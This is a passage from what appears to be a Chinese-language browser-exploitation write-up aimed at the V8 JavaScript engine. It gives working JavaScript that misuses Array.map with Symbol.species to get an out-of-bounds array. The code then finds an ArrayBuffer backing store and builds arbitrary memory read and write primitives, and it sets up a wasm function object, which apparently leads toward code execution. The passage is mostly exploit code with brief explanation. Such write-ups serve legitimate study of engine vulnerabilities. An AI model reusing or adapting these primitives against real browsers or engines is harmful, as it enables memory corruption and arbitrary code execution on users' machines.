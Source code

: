 ```
class Array1 extends Array{
	constructor(len){
		super(1);
		oobArray = [1.1, 2.2];
		data_buf = new ArrayBuffer(0x233);
		obj = {mark: 1212122, obj: wasm_function};
	}
};


class MyArray extends Array{
	static get [Symbol.species](){
		return Array1;
	}
};

a = new MyArray();
a[8] = 6;

var b = a.map(function(x) {return 1000;});
```

我们为a[8]初始化一个值，8这个偏移是oobArray的length，之后在var b = a.map(function(x) {return 1000;});这里将length修改为1000，实现数组越界。


#####  2、找到 bk，并实现oor、oow

遍历数组找data_buf的length，bk是length的下一个（float_buffer_idx = i + 1;）。
```
//find bk
var float_buffer_idx = 0;
for(let i=0; i < 0x1000; i++)
{
	if(f2i(oobArray[i]) == 0x0000023300000000){
		float_buffer_idx = i + 1;
		console.log("[+] find data_buf backing_store : 0x" + hex(f2i(oobArray[float_buffer_idx])));
		break;
	}
}

//oor
var data_view = new DataView(data_buf);

function dataview_read64(addr)
{
	oobArray[float_buffer_idx] = i2f(addr);
	return f2i(data_view.getFloat64(0, true));
}


//oow
function dataview_write(addr, payload)
{
	oobArray[float_buffer_idx] = i2f(addr);
	for(let i=0; i < payload.length; i++)
	{
		data_view.setUint8(i, payload[i]);
	}
}
```
